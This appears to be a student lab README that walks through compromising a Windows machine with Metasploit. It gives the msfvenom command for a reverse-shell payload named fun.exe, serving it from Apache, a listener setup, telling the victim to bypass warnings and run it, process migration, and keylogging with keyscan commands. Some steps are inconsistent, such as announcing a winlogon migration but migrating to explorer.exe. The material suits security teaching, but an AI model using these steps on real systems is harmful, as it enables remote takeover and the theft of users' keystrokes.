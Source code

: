 # 6.Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/d1355a54-549c-4251-9cb2-ffd8029475d6)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/0fab784a-f98b-4529-b16f-edb051a54cd8)





copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/9f385df1-7ef6-4664-bd71-b40a05cdc9a9)





Start apache server
sudo systemctl apache2 start
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/b75c3b4a-80c0-4488-b2bc-cf32e724221c)





Check the status of apache2
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/35071646-4aff-4177-b96c-2969a7c115e4)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/2c7fc124-656e-45f5-9aec-d375164e90ea)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/be4bb428-a0ff-4176-a41b-450c8582c58e)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/bbb60dfc-9938-4a23-bdfb-c4790d087667)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/7cbb57bb-ad6e-481a-9a41-ee706e5be473)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/06a48691-f75d-40e2-8ff0-9c247cab5780)




keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/3ad1d31f-f013-4b1f-923a-6625c4e2a0ba)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
